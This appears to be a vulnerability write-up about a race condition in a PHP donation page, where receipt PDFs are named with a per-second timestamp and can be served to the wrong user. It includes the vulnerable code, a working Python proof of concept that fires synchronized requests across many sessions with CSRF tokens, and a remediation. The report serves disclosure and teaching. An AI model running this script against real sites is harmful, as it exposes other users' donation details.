

# Description  
A race condition occurs when the behavior of software depends on the relative timing or interleaving of multiple threads, processes, or requests, and this timing can lead to unexpected or undesirable outcomes. In web applications, race conditions often arise when multiple requests access and modify shared resources concurrently without proper synchronization.
# Exploitation  
Vulnerable part of the Code is the following. 
``` 
            $associationData = $associationModel->getAssociationById($associationId);
            $associationName = $associationData['name'];
            $financial = new Financial($pdo, $associationName, $donatorName, (float)$amount);
            $outputPath = '/tmp/donation_receipt_' . time() . '.pdf';
            $financial->generatePDF($outputPath);
            header('Content-Type: application/pdf');
            header('Content-Disposition: attachment; filename="donation_receipt.pdf"');
            readfile($outputPath);
            exit();

```

The filename depends on the time, which is in seconds. 

So basically, if an attacker makes several requests within the same second, they can cause a race condition where the PDF file is overwritten or another user's PDF is served, leading to information disclosure or file corruption.

# PoC  
We used the following script : 
```
import requests
from requests_racer import SynchronizedAdapter

s = requests.Session()
sync = SynchronizedAdapter()
s.mount('http://', sync)
s.mount('https://', sync)
data = """bla0 d461ce768a0ea2613302f8846625f6b56bbc85ea3341a30f320e78ebb6dda34c
bla1 c8ad0d15450fe2b9f03109af520cc4f14f969e4002392891fc64104663b9b6d4
bla2 869c7fadb62842db1edad14e54103ca0c0637048f5063a24b70d1084036ed38f
bla3 79a20cf433272685ddce4031aec0f1a6715c2bbe5f55686bc10682b0c7f85ba5
bla4 b0e5ba097f8d5d716e1cd1acb413a7037679d0f898fbb70393b9d36b6871e42a
bla5 2f5b6219956b576cafbfd01758048a542a672a6d488af61c2b7417d95b38167c
bla6 8718be37a79bd77876464551e2a932c4c73ad8306849a9a6bf39489fc260cf2b
bla7 18bd056e2378e791aa58ee645fe33c4d896fb4f54b9917f563891229c09804ad
bla8 e3d2b53d091534879002e2721ecedc487e91f6237c3a03e5cbec1bbda1a64494
bla9 657c2c975a434eba39d05d006fdb7387f6ac3ec80ddcd0db63d390150ae1daa2
bla10 47608a25c6f43f7283c83289f8e5ff908b0a55ced080cbed9a5071eecde62d7b
bla11 58eb92c57f876320457a742ce41e293b874f8fc9266b7d887f7169cbc512b5d1
bla12 418f35ed3ef1a98dccaf483f0e4c82023994bcca21d98ac8341456dc06d9c9a8
bla13 1dd1bdcfd59c801fb4e6c046fad9f6e18317690cfc235bfd2d4fde02716d5813
bla14 0a14f61d5dce022d8d5ed9d9cecf89d4eb58efbed13d30d87f60bea7e3bbcc20
bla15 721b2dddaa01c122918e710f7cea31f765d028d8906f01cecf07c65cbc2293c5
bla16 ec6677750872d3e968442607529c129b7dbf9b82e060cefdcc7495c5a117c59b
bla17 2d5af5e83a6fc1a41a39b2f41ded26f53b5de9a09bba6549e284c90c53cc209a
bla18 4533bd0ef36c9b9bb24bda56a63fabc52436da4afabc140d5f70b3d022a44856
bla19 4a3e87fb730914690b623b9193fd52a129e1d84800487b6ee01d65654568feb0
bla20 ffd16af94696b6ae6b957190b4a4e8873a01b3caa45d769abea2c57b1eecded4
bla21 1a384d4caeb494e3538e47eda117930be0ed1c3f5ff1983786efe5b3a1ffbf44
bla22 9e785770626ba989e9f8708a327543432ed66ad4534805ae4cb2422b0f0a72bc
bla23 0c90c782efc3670734fab7a2500a7451d5161c9045f6b89a41f6278a65743b7b
bla24 3fa7baafd8406f8e5a6a455b3e8ccf7afcf0846fdab196ac58effb4c1a1e5371
bla25 5398d5b326b5069569dddd578b2e215df4db1b8159688bfa3d68d57ec9db5046
bla26 35a7cef3d23f31cdc1e2ff60cfe0f8f3ca6d689967148885a495b49f0b44baba
bla27 a29acfe770568826018c3477b8aed12bb9fc399f3675d059b90238c24051ab83
bla28 c793b7f62aadd685497917f31a0f793dbee7a9b13cf714bbab4ee7e854b6fab2
bla29 4120e2d2842048043d7c71c234a80cf2b50249d054be39fc5dff51bb732db911
bla30 eee26689d05e56d7595ccc1919a354d439616274168169caf2afd7e834df3400
bla31 52e1ba3328a0936a388b1d1d7997c05b6cb1c50a316acc0877c8c98db0f48899
bla32 f04f1e353b1d5bc461409d9d93124eb4260556c563b352a900a4f8004b4dbae1
bla33 c1fb31825e1f93f380c1e834e099b0d74c94e64f4dbf71aeae5ed6274a4b871e
bla34 a28cfb84dd9a0789e74995d84510aae6e713d6022a5a61240fffcb17e2c51426
bla35 427b179aa98f039cad6b23e881cf9fdf71b42479a2709ee2c3e07565b676938b
bla36 6bc06eabd706526028f68f89a28930bb5eed84682eeedbdc7f4cee9c2279261a
bla37 47fd84f6666f7a76b4b13ea514906ab679858f856e002f4fd3b5721ca3043e52
bla38 bc128f30abf0521dad9f0a9b8b1f7d3764d0b86ed3fb10a69e51dc6337d97db8
bla39 bda52eec3c58bfe3aa0876be5d70e5041b2a73370149eeeffb52017f53da13f3
bla40 ebed361f9e67a819756669a6c1abe5144d167709eb5cdb0ac656fafecf098f09
bla41 c1e39ea1a178990a336da4748f322a2bbe26fc2ff3e5eae51f0b38f6a6f4a4cf
bla42 9f41b5cd18b3b502bb79df12fcdc9b22a5d25000912f2da8ee2657db980192ab
bla43 1d9ee0fa18b6f8a787681ca6d0459a9533f8811c17d5a8a8fe11fc800433a1d7
bla44 8ca5389e65b732c25711987bb7d530d297f213ddcf0d76b06becf725dcc28ae4
bla45 be888b03af43d5385043359b21e1c5aec1c8865c5b415683a8e9c9c7b0f7d301
bla46 03b9ea59269d3c68f84b65e2b7c08e1d0b25175827570ebdeab0e126827e1b1a
bla47 22bc7142f85187441eb4ce452a1847bb930382b2de6385687bfc8d71fc0d055c
bla48 7e3383e6bb0a63de06a25a186ce82c5b99c42dcf9015b3f6a310387c388fab6c
bla49 181a9fb85adcebbcb234a9f57e4ec6cb610e6366aefe000dd6ac2e8d16177498
bla50 d3efa1e7759fb4123eaf8a688ae8e51ae80725dfffeab93276adbfcc8521545c
bla51 bb614ba3e8af40f1b837e17f159901058102fc77e829e121e9c86571959e4c0e
bla52 386de6f89134728ec83fc24c25e2abfc2c6d26170ddbf02b3a331d07a593258e
bla53 a28956b1d1e8e7edb3602ecd76edf629a3c39a7f3440c066f04db67aac2174bc
bla54 c8199b9f5db7b657e2beb1bc91129deb96e51585b2f75988216939fc68a8e4cc
bla55 66a67ddcf698d060b0a67d36bb52c175fd50c63298539331045d5746b28dfba6
bla56 cc8e2129a8e99e2cd3ae8e3ecfb6582d96fcac33f231bd60356f8b00ff7a6eec
bla57 fa1ee4452c762dc135acee19ab0df87453dc85a1bbfd4ff957c1a17fc7862fa8
bla58 68f7433720aa5dc67c25c574828d3b4e6d412a62239b719a45dca7f59d4fa5a2
bla59 dae35b73cf7716a8556e503d99baf2057cbc07dc99159e64adc9214cae9094cf
bla60 10fd987e861d889d5abbdbbb656e8fd66d00eddcef2dbbee8a741d8dbb94cdb8
bla61 14f8b9e55ba286f37e3b6e5d78f2d174a6c7f0685bfc63c198a846d647a8ecac
bla62 f0841574ba0b5c987dbec6f11ca556e1dd570ed1f7e9dd7388e664762a21ee27
bla63 3084628c45f52ced89de3913f0826f541ebfaeb70a681ff08a78df49c3b1fef5
bla64 9fca653ae6c3180542d160a070aae51567f2de85bc686966e6a6258298e2a358"""

data = data.split("\n")

burp0_url = "https://<IP>:443/index.php?page=financial/donation.php"
responses = []

#create the reports
for i in range(20):
    # PHP is thread-blocking for the same session so we need a lot of different sessions to perform the race condition attack
    burp0_data = {"association_id": "17", "donator_name": str(i), "amount": "1", "csrf_token": data[i].split(' ')[1]}
    responses.append(s.post(burp0_url, cookies={"PHPSESSID":"bla"+str(i)}, data=burp0_data, verify=False))

sync.finish_all()

for res in responses:
    # print the donator_name from the PDF
    print(res.text[2582:2597])
```

We can see that both users have the same report (id=19)


# Risk
- Information Disclosure: Users may receive PDF receipts containing other users' donation information.
- Data Integrity: PDF files can be overwritten, causing corrupted or incorrect receipts.


# Remediation  
Avoid using `time()` in seconds for filename generation. Instead, use a more precise and unique identifier
# Author
Arancina
